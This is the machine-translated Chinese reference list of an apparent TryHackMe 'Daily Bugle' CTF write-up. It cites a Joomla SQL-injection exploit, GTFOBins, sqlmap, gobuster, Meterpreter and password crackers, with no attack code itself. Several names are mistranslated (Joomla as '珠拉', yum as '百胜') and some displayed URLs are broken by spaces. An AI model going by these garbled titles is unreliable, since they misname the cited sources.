Espargham 等人(未注明)。 *joomscan: OWASP Joomla 漏洞扫描器项目*。GitHub 仓库。2022 年 12 月 13 日检索自:[https://github.com/OWASP/joomscan](https://github.com/OWASP/joomscan)

GTFOBins(未标明)。*百胜*。2022 年 12 月 16 日检索自:[https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/)

Hashes.com(未标出)。*哈希类型标识符——识别未知哈希*。2022 年 12 月 15 日检索自:[https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier)

珠拉。(未注明)。*内容管理系统建立网站&应用程序*。2022 年 12 月 13 日检索自:[https://www.joomla.org/about-joomla.html](https://www.joomla.org/about-joomla.html)

珠拉。(未注明)。*管理员(应用)*。2022 年 12 月 13 日检索自:[https://docs . Joomla . org/Administrator _(Application)](https://docs.joomla.org/Administrator_(Application))

珠拉。(未注明日期)。*模块*。2022 年 12 月 13 日检索自:[https://docs.joomla.org/Module](https://docs.joomla.org/Module)

利诺，M. (2017)。 *Joomla！3 . 7 . 0—‘com _ fields’SQL 注入*。利用数据库。2022 年 12 月 13 日检索自:[https://www.exploit-db.com/exploits/42033](https://www.exploit-db.com/exploits/42033)

马里亚得布(未标明)。*关于 MariaDB 服务器*。2022 年 12 月 13 日检索自:[https://mariadb.org/about/](https://mariadb.org/about/)

Mehlmauer 等人(未注明)。 *Gobuster v3.2.0:用 Go* 编写的目录/文件、DNS 和 VHost 破坏工具。GitHub 仓库。2022 年 12 月 13 日检索自:【https://github.com/OJ/gobuster 

米塔尔公司(2011 年)。使用 Meterpreter 进行后期开发。利用数据库。2022 年 12 月 16 日检索自:【https://www.exploit-db.com/docs/18229 

《穆兰道尔》(2020)。*每日号角——报道*。2022 年 12 月 13 日检索自:[https://muirlandoracle . co . uk/2020/02/08/daily-bugle-write-up](https://muirlandoracle.co.uk/2020/02/08/daily-bugle-write-up)

MySQL(未标明)。*关于 MySQL* 。2022 年 12 月 13 日检索自:[https://www.mysql.com/about/](https://www.mysql.com/about/)

nmap(未标明)。 *Nmap:网络映射器——免费安全扫描器*。2022 年 12 月 13 日检索自:[https://nmap.org/](https://nmap.org/)

OpenSSH(7.4 版)。*发行说明*。2022 年 12 月 13 日检索自:[https://www.openssh.com/txt/release-7.4](https://www.openssh.com/txt/release-7.4)

开放式墙壁(未标明)。开膛手约翰密码破解者。2022 年 12 月 15 日检索自:[https://www.openwall.com/john/](https://www.openwall.com/john/)

Prodromou，A. (2020)。*Web shell 入门(Web shell 第一部分)*。Acunetix 博客。2022 年 12 月 16 日检索自:[https://www . acune tix . com/blog/articles/introduction-we B- shell-part-1/](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)

普罗沃斯和马齐尔斯博士(1999 年)。 *Bcrypt 算法*。USENIX 会议。2022 年 12 月 15 日检索自:[https://www . usenix . org/legacy/events/usenix 99/provos/provos _ html/node 5 . html](https://www.usenix.org/legacy/events/usenix99/provos/provos_html/node5.html)

Rivest，R. (1992 年)。*MD5 消息摘要算法*。网络工作组。2022 年 12 月 15 日检索自:[https://www.rfc-editor.org/rfc/rfc1321](https://www.rfc-editor.org/rfc/rfc1321)

施奈尔，B. (1994 年)。*一种新的变长密钥 64 位分组密码(Blowfish)的描述。*施奈尔上安保。2022 年 12 月 15 日检索自:[https://www . schneier . com/academic/archives/1994/09/description _ of _ a _ new . html](https://www.schneier.com/academic/archives/1994/09/description_of_a_new.html)

Stampar 等人(未注明)。sqlmap:自动 SQL 注入和数据库接管工具。GitHub 仓库。2022 年 12 月 13 日检索自:【https://github.com/sqlmapproject/sqlmap 

《tryhackme》(2020)。*每日号角*。TryHackMe。2022 年 12 月 17 日检索自:[https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)

维基百科(2022 年 10 月 15 日修订)。*每日号声*。2022 年 12 月 17 日检索自:[https://en.wikipedia.org/w/index.php?title=Daily_Bugle&oldid = 1116305493](https://en.wikipedia.org/w/index.php?title=Daily_Bugle&oldid=1116305493)

北卡罗来纳州威廉姆斯(2019)。Vulnhub 报道:——DC:3。独立出版。2022 年 12 月 16 日检索自:[https://medium . com/@ nick Williams _/vulnerability-adventures-DC-3-416 AFE 04 c 531](https://medium.com/@nickwilliams_/vulnerability-adventures-dc-3-416afe04c531)

xsltproc(未标明)。 *xsltproc —命令行 xslt 处理器*。2022 年 12 月 7 日检索自:[http://xmlsoft.org/xslt/xsltproc.html](http://xmlsoft.org/xslt/xsltproc.html)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)，以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！